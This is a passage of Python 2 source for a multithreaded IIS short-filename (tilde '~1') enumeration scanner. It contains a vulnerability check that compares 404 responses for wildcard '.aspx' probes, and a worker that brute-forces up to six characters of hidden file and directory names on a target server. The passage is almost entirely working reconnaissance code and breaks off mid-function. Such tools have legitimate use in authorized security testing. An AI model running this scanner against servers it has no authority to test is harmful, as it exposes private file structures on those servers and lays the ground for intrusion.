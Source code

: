 ```python
            raise Exception('[_get_status.Exception] %s' % str(e) )

    def is_vul(self):
        try:
            for _method in ['GET', 'OPTIONS']:
                self.request_method = _method
                status_1 = self._get_status(self.path + '/*~1*/a.aspx')    # an existed file/folder
                status_2 = self._get_status(self.path + '/l1j1e*~1*/a.aspx')    # not existed file/folder
                if status_1 == 404 and status_2 != 404:
                    return True
            return  False
        except Exception, e:
            raise Exception('[is_vul.Exception] %s' % str(e) )

    def run(self):
        for c in self.alphanum:
            self.queue.put( (self.path + c, '.*') )    # filename, extension
        for i in range(20):
            t = threading.Thread(target=self._scan_worker)
            self.threads.append(t)
            t.start()
        for t in self.threads:
            t.join()
        self.STOP_ME = True

    def report(self):
        print '-'* 64
        for d in self.dirs:
            print 'Dir:  %s' % d
        for f in self.files:
            print 'File: %s' % f
        print '-'*64
        print '%d Directories, %d Files found in total' % (len(self.dirs), len(self.files))
        print 'Note that * is a wildcard, matches any character zero or more times.'

    def _print(self):
        while not self.STOP_ME or (not self.msg_queue.empty()):
            if self.msg_queue.empty():
                time.sleep(0.05)
            else:
                print self.msg_queue.get()

    def _scan_worker(self):
        while True:
            try:
                url, ext = self.queue.get(timeout=1.0)
                status = self._get_status(url + '*~1' + ext + '/1.aspx')
                if status == 404:
                    self.msg_queue.put('[+] %s~1%s\t[scan in progress]' % (url, ext))

                    if len(url) - len(self.path)< 6:    # enum first 6 chars only
                        for c in self.alphanum:
                            self.queue.put( (url + c, ext) )
                    else:
                        if ext == '.*':
                            self.queue.put( (url, '') )

                        if ext == '':
                            self.dirs.append(url + '~1')
                            self.msg_queue.put('[+] Directory ' +  url + '~1\t[Done]')

                        elif len(ext) == 5 or (not ext.endswith('*')):    # .asp*
```